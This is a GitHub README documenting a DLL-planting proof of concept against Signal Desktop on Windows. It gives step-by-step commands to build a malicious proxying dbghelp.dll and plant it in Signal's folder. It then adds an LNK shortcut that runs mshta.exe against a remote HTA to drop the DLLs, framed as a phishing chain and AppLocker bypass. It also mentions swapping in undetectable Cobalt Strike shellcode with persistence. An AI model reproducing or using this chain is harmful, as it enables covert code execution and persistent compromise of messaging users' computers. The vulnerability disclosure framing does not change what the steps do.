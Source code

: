 ## EDIT:
2024/05/08 --> It's been brought to my attention that "cryptbase.dll" no longer works, so in short, Signal said this wasn't a vulnerability yet patched something that wasn't a vulnerability. I've updated this repo to use dbghelp.dll instead. Github's find and replace function is very useful. I've also added the gen_def.py script - 

# Summary 
Multiple instances of DLL planting exist, and a threat actor can plant DLLs that don't exist but are referenced by the application. 

# Steps to Replicate
1. First, create a malicious DLL. Signal references many non-existent DLLs, but several of the DLLs are native to Windows. For this example, I used `dbghelp.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify their steps for you, by also including the definition generator in this repo:
   * Clone the repo.
   * Modify the `dbghelp.c` file in this repo as you see fit - note that this is nothing more than the payload.
   * Copy `C:\Windows\System32\dbghelp.dll` into the `dll-hijack-by-proxying` directory as `dbghelp_original.dll`.
   * Create the exports using the `gen_def.py` script

    ```
    python3 gen_def.py dbghelp_orig.dll > dbghelp.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    x86_64-w64-mingw32-gcc -shared -o dbghelp.dll dbghelp.c dbghelp.def -s
    ```

2. Now you've got your malicious DLL. Copy `dbghelp.dll` and `dbghelp_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/1.png?raw=true)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. You might be wondering what the purpose of building this type of chain serves. Simple: you can chain this as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a safe messenger. In addition, an LNK pretext will allow you to get the user to download the DLLs into the appropriate folder.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/2.png?raw=true)

2. Host your `dbghelp.dll` and `dbghelp_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host `poc.hta` on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA, mostly for the nonsense of the chain, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a live scenario, I'd swap the HTA payload out with a FUD DLL payload, built with compiled Cobalt Strike or Brute Rat shellcode with persistence, depending on the EDR i'm up against.
   
    ![RCE Proof](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/3.png?raw=true)
